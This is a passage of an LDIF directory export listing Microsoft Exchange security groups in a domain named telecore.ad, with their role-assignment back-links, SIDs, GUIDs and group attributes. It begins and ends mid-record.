 BAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tel
 ecore,DC=ad
msExchUserBL: CN=UM Mailboxes-Organization Management-Delegating,CN=Role Assig
 nments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configura
 tion,DC=telecore,DC=ad
msExchUserBL: CN=Transport Rules-Organization Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Transport Rules-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Transport Queues-Organization Management,CN=Role Assignments,
 CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC
 =telecore,DC=ad
msExchUserBL: CN=Transport Queues-Organization Management-Delegating,CN=Role A
 ssignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
msExchUserBL: CN=Transport Hygiene-Organization Management,CN=Role Assignments
 ,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,D
 C=telecore,DC=ad
msExchUserBL: CN=Transport Hygiene-Organization Management-Delegating,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchUserBL: CN=Transport Agents-Organization Management,CN=Role Assignments,
 CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC
 =telecore,DC=ad
msExchUserBL: CN=Transport Agents-Organization Management-Delegating,CN=Role A
 ssignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
msExchUserBL: CN=Team Mailboxes-Organization Management,CN=Role Assignments,CN
 =RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=t
 elecore,DC=ad
msExchUserBL: CN=Team Mailboxes-Organization Management-Delegating,CN=Role Ass
 ignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configu
 ration,DC=telecore,DC=ad
msExchUserBL: CN=TeamMailboxLifecycleApplication-Organization Management-Deleg
 ati,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Serv
 ices,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Support Diagnostics-Organization Management-Delegating,CN=Rol
 e Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Co
 nfiguration,DC=telecore,DC=ad
msExchUserBL: CN=SendMailApplication-Organization Management-Delegating,CN=Rol
 e Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Co
 nfiguration,DC=telecore,DC=ad
msExchUserBL: CN=Send Connectors-Organization Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Send Connectors-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Security Reader-Organization Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Security Reader-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Security Group Creation and Membership-Organization Managemen
 t,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Servic
 es,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Security Group Creation and Membership-Organization Managemen
 t-D,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Serv
 ices,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Security Admin-Organization Management,CN=Role Assignments,CN
 =RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=t
 elecore,DC=ad
msExchUserBL: CN=Security Admin-Organization Management-Delegating,CN=Role Ass
 ignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configu
 ration,DC=telecore,DC=ad
msExchUserBL: CN=Role Management-Organization Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Role Management-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Retention Management-Organization Management,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=Retention Management-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=Reset Password-Organization Management-Delegating,CN=Role Ass
 ignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configu
 ration,DC=telecore,DC=ad
msExchUserBL: CN=Remote and Accepted Domains-Organization Management,CN=Role A
 ssignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
msExchUserBL: CN=Remote and Accepted Domains-Organization Management-Delegatin
 g,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Servic
 es,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Recipient Policies-Organization Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=Recipient Policies-Organization Management-Delegating,CN=Role
  Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Con
 figuration,DC=telecore,DC=ad
msExchUserBL: CN=Receive Connectors-Organization Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=Receive Connectors-Organization Management-Delegating,CN=Role
  Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Con
 figuration,DC=telecore,DC=ad
msExchUserBL: CN=Public Folders-Organization Management,CN=Role Assignments,CN
 =RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=t
 elecore,DC=ad
msExchUserBL: CN=Public Folders-Organization Management-Delegating,CN=Role Ass
 ignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configu
 ration,DC=telecore,DC=ad
msExchUserBL: CN=POP3 And IMAP4 Protocols-Organization Management,CN=Role Assi
 gnments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configur
 ation,DC=telecore,DC=ad
msExchUserBL: CN=POP3 And IMAP4 Protocols-Organization Management-Delegating,C
 N=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,
 CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Organization Transport Settings-Organization Management,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=Organization Transport Settings-Organization Management-Deleg
 ati,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Serv
 ices,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Organization Configuration-Organization Management,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Organization Configuration-Organization Management-Delegating
 ,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Service
 s,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Organization Client Access-Organization Management,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Organization Client Access-Organization Management-Delegating
 ,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Service
 s,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Org Marketplace Apps-Organization Management,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=Org Marketplace Apps-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=Org Custom Apps-Organization Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Org Custom Apps-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=OfficeExtensionApplication-Organization Management-Delegating
 ,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Service
 s,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Move Mailboxes-Organization Management,CN=Role Assignments,CN
 =RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=t
 elecore,DC=ad
msExchUserBL: CN=Move Mailboxes-Organization Management-Delegating,CN=Role Ass
 ignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configu
 ration,DC=telecore,DC=ad
msExchUserBL: CN=Monitoring-Organization Management,CN=Role Assignments,CN=RBA
 C,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telec
 ore,DC=ad
msExchUserBL: CN=Monitoring-Organization Management-Delegating,CN=Role Assignm
 ents,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurati
 on,DC=telecore,DC=ad
msExchUserBL: CN=Migration-Organization Management,CN=Role Assignments,CN=RBAC
 ,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=teleco
 re,DC=ad
msExchUserBL: CN=Migration-Organization Management-Delegating,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=Message Tracking-Organization Management,CN=Role Assignments,
 CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC
 =telecore,DC=ad
msExchUserBL: CN=Message Tracking-Organization Management-Delegating,CN=Role A
 ssignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
msExchUserBL: CN=MeetingGraphApplication-Organization Management-Delegating,CN
 =Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,C
 N=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=MailboxSearchApplication-Organization Management-Delegating,C
 N=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,
 CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Mailbox Search-Organization Management-Delegating,CN=Role Ass
 ignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configu
 ration,DC=telecore,DC=ad
msExchUserBL: CN=Mailbox Import Export-Organization Management-Delegating,CN=R
 ole Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=
 Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Mail Tips-Organization Management,CN=Role Assignments,CN=RBAC
 ,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=teleco
 re,DC=ad
msExchUserBL: CN=Mail Tips-Organization Management-Delegating,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=Mail Recipients-Organization Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Mail Recipients-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Mail Recipient Creation-Organization Management,CN=Role Assig
 nments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configura
 tion,DC=telecore,DC=ad
msExchUserBL: CN=Mail Recipient Creation-Organization Management-Delegating,CN
 =Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,C
 N=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Mail Enabled Public Folders-Organization Management,CN=Role A
 ssignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
msExchUserBL: CN=Mail Enabled Public Folders-Organization Management-Delegatin
 g,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Servic
 es,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=LegalHoldApplication-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=Legal Hold-Organization Management,CN=Role Assignments,CN=RBA
 C,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telec
 ore,DC=ad
msExchUserBL: CN=Legal Hold-Organization Management-Delegating,CN=Role Assignm
 ents,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurati
 on,DC=telecore,DC=ad
msExchUserBL: CN=Journaling-Organization Management,CN=Role Assignments,CN=RBA
 C,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telec
 ore,DC=ad
msExchUserBL: CN=Journaling-Organization Management-Delegating,CN=Role Assignm
 ents,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurati
 on,DC=telecore,DC=ad
msExchUserBL: CN=Information Rights Management-Organization Management,CN=Role
  Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Con
 figuration,DC=telecore,DC=ad
msExchUserBL: CN=Information Rights Management-Organization Management-Delegat
 ing,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Serv
 ices,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Federated Sharing-Organization Management,CN=Role Assignments
 ,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,D
 C=telecore,DC=ad
msExchUserBL: CN=Federated Sharing-Organization Management-Delegating,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Virtual Directories-Organization Management,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Virtual Directories-Organization Management-Delegati
 ng,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Servi
 ces,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Servers-Organization Management,CN=Role Assignments,
 CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC
 =telecore,DC=ad
msExchUserBL: CN=Exchange Servers-Organization Management-Delegating,CN=Role A
 ssignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Server Certificates-Organization Management,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Server Certificates-Organization Management-Delegati
 ng,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Servi
 ces,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=ExchangeCrossServiceIntegration-Organization Management-Deleg
 ati,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Serv
 ices,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Connectors-Organization Management,CN=Role Assignmen
 ts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration
 ,DC=telecore,DC=ad
msExchUserBL: CN=Exchange Connectors-Organization Management-Delegating,CN=Rol
 e Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Co
 nfiguration,DC=telecore,DC=ad
msExchUserBL: CN=E-Mail Address Policies-Organization Management,CN=Role Assig
 nments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configura
 tion,DC=telecore,DC=ad
msExchUserBL: CN=E-Mail Address Policies-Organization Management-Delegating,CN
 =Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,C
 N=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Edge Subscriptions-Organization Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=Edge Subscriptions-Organization Management-Delegating,CN=Role
  Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Con
 figuration,DC=telecore,DC=ad
msExchUserBL: CN=Distribution Groups-Organization Management,CN=Role Assignmen
 ts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration
 ,DC=telecore,DC=ad
msExchUserBL: CN=Distribution Groups-Organization Management-Delegating,CN=Rol
 e Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Co
 nfiguration,DC=telecore,DC=ad
msExchUserBL: CN=Disaster Recovery-Organization Management,CN=Role Assignments
 ,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,D
 C=telecore,DC=ad
msExchUserBL: CN=Disaster Recovery-Organization Management-Delegating,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchUserBL: CN=Databases-Organization Management,CN=Role Assignments,CN=RBAC
 ,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=teleco
 re,DC=ad
msExchUserBL: CN=Databases-Organization Management-Delegating,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=Database Copies-Organization Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Database Copies-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Database Availability Groups-Organization Management,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchUserBL: CN=Database Availability Groups-Organization Management-Delegati
 ng,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Servi
 ces,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Data Loss Prevention-Organization Management,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=Data Loss Prevention-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=Compliance Admin-Organization Management,CN=Role Assignments,
 CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC
 =telecore,DC=ad
msExchUserBL: CN=Compliance Admin-Organization Management-Delegating,CN=Role A
 ssignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
msExchUserBL: CN=Cmdlet Extension Agents-Organization Management,CN=Role Assig
 nments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configura
 tion,DC=telecore,DC=ad
msExchUserBL: CN=Cmdlet Extension Agents-Organization Management-Delegating,CN
 =Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,C
 N=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Audit Logs-Organization Management,CN=Role Assignments,CN=RBA
 C,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telec
 ore,DC=ad
msExchUserBL: CN=Audit Logs-Organization Management-Delegating,CN=Role Assignm
 ents,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurati
 on,DC=telecore,DC=ad
msExchUserBL: CN=ArchiveApplication-Organization Management-Delegating,CN=Role
  Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Con
 figuration,DC=telecore,DC=ad
msExchUserBL: CN=ApplicationImpersonation-Organization Management-Delegating,C
 N=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,
 CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Address Lists-Organization Management,CN=Role Assignments,CN=
 RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=te
 lecore,DC=ad
msExchUserBL: CN=Address Lists-Organization Management-Delegating,CN=Role Assi
 gnments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configur
 ation,DC=telecore,DC=ad
msExchUserBL: CN=Active Directory Permissions-Organization Management,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchUserBL: CN=Active Directory Permissions-Organization Management-Delegati
 ng,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Servi
 ces,CN=Configuration,DC=telecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Recipient Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Recipient Management,OU=Microsoft Exchange Security Groups,DC=telecore,
 DC=ad
objectClass: top
objectClass: group
cn: Recipient Management
description: Members of this management role group have rights to create, mana
 ge, and remove Exchange recipient objects in the Exchange organization.
distinguishedName: CN=Recipient Management,OU=Microsoft Exchange Security Grou
 ps,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115135.0Z
uSNCreated: 89714
uSNChanged: 89784
garbageCollPeriod: 1209600
name: Recipient Management
objectGUID:: /mgeMQ6KRUipAowgbXWssA==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaYAQAAA==
sAMAccountName: Recipient Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 2
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=Team Mailboxes-Recipient Management,CN=Role Assignments,CN=RB
 AC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchUserBL: CN=Recipient Policies-Recipient Management,CN=Role Assignments,C
 N=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=
 telecore,DC=ad
msExchUserBL: CN=Move Mailboxes-Recipient Management,CN=Role Assignments,CN=RB
 AC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchUserBL: CN=Migration-Recipient Management,CN=Role Assignments,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
msExchUserBL: CN=Message Tracking-Recipient Management,CN=Role Assignments,CN=
 RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=te
 lecore,DC=ad
msExchUserBL: CN=Mail Recipients-Recipient Management,CN=Role Assignments,CN=R
 BAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tel
 ecore,DC=ad
msExchUserBL: CN=Mail Recipient Creation-Recipient Management,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=Distribution Groups-Recipient Management,CN=Role Assignments,
 CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC
 =telecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# View-Only Organization Management, Microsoft Exchange Security Groups, teleco
 re.ad
dn: CN=View-Only Organization Management,OU=Microsoft Exchange Security Groups
 ,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: View-Only Organization Management
description: Members of this management role group can view recipient and conf
 iguration objects and their properties in the Exchange organization.
distinguishedName: CN=View-Only Organization Management,OU=Microsoft Exchange 
 Security Groups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250910115135.0Z
uSNCreated: 89719
uSNChanged: 89786
garbageCollPeriod: 1209600
name: View-Only Organization Management
objectGUID:: E4uquc6V4kWcfYlCbsPPFQ==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaYQQAAA==
sAMAccountName: View-Only Organization Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 3
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=View-Only Recipients-View-Only Organization Management,CN=Rol
 e Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Co
 nfiguration,DC=telecore,DC=ad
msExchUserBL: CN=View-Only Configuration-View-Only Organization Management,CN=
 Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN
 =Configuration,DC=telecore,DC=ad
msExchUserBL: CN=Monitoring-View-Only Organization Management,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Public Folder Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Public Folder Management,OU=Microsoft Exchange Security Groups,DC=telec
 ore,DC=ad
objectClass: top
objectClass: group
cn: Public Folder Management
description: Members of this management role group can manage public folders. 
 Members can create and delete public folders and manage public folder setting
 s such as replicas, quotas, age limits, and permissions as well as mail-enabl
